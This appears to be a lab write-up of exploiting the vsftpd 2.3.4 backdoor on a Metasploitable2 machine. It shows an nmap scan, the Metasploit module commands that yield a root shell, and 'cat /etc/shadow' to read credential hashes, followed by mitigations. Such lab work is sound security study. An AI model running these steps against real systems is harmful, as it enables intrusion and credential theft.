


# VSFTPD Backdoor Exploitation (Metasploitable2)

## Objective
The goal of this exercise was to identify and exploit a known vulnerability in the VSFTPD 2.3.4 service running on a target machine using basic reconnaissance and exploitation techniques.

---

## Target Information
- Target IP: 192.168.190.128  
- Service: vsftpd 2.3.4  
- Environment: Metasploitable2 (lab environment)

---

## Reconnaissance

A SYN scan with version detection was performed to identify open ports and running services.

## Reconnaissance

A SYN scan with version detection was performed to identify open ports and running services.

```bash
nmap -sS -sV 192.168.190.128
```


---

## Findings

Port `21/tcp`: FTP service detected — **vsftpd 2.3.4**

The scan revealed that an outdated and vulnerable version of VSFTPD was running on the FTP service.

---

## Vulnerability Identification

VSFTPD 2.3.4 contains a known backdoor vulnerability (CVE-2011-2523) that can lead to remote code execution. Public exploit availability confirmed the severity of the issue and its compatibility with Metasploit.

---

## Exploitation

The Metasploit Framework was used to exploit the vulnerability.

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.190.128
set RPORT 21
run
```
![metasploit-output]

---

## Result

The exploit was successful and provided a remote shell on the target system.

```bash
whoami
```

Output: `root`



This confirms full system compromise of the target machine.

---

## Post-Exploitation

After gaining root access, system exploration was performed. Sensitive file access was demonstrated:

```bash
cat /etc/shadow
```


---

## Impact

The `/etc/shadow` file contains hashed credentials for system users. Exposure of this file can lead to offline password cracking and full account compromise.

---

## Security Implications

This vulnerability highlights the risk of running outdated services.

**Key risks:**
- Remote code execution via known backdoor
- Full root compromise
- Exposure of authentication data

**Mitigations:**
- Regular service updates and patching
- Removal of unused or insecure services
- Continuous vulnerability scanning

